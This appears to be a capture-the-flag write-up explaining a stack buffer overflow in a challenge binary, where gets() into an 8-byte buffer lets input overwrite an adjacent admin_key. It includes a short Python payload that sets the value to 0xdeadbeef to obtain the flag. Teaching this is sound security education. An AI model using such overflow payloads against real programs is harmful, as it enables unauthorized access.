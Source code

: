 # Headquarters

Refer to [`solution.py`](solution.py) for script.


## Vulnerability

`gets`, which is used to receive user input into the variable `name`, allows for input of an unlimited length.

That means even though the `char name[8]` variable has only a size of 8 bytes, when we do `gets(name)`, we can write more than 8 bytes.

This can lead to a buffer overflow vulnerability, where the amount of data written to the buffer (the variable) exceeds its storage capacity.

```
Reference page:
The gets() function does not perform bounds checking, therefore this function is extremely vulnerable to buffer-overflow attacks. It cannot be used safely (unless the program runs in an environment which restricts what can appear on stdin). For this reason, the function has been deprecated in the third corrigendum to the C99 standard and removed altogether in the C11 standard. fgets() and gets_s() are the recommended replacements.
```

## Exploit

This is how the stack looks like:

```
top of stack
----------------
| char name[8] | < 8 bytes
---------------- 
|  admin_key   | < 4 bytes
----------------
bottom of stack
```

That means if we input more than 8 characters as input, we can overflow into the `admin_key` variable, and modify its value.
- E.g. if we input 12 `A`s, then `admin_key = AAAA (0x41414141)`.

So, to make `admin_key = 0xdeadbeef`, we need this to be our payload:

```python
payload = b'A'*8 # fill up the `name` buffer
payload += p32(0xdeadbeef) # overwrite `admin_key` to 0xdeadbeef. p32 formats our value to 4 bytes LSB.

io.sendline(payload) # get the flag
```

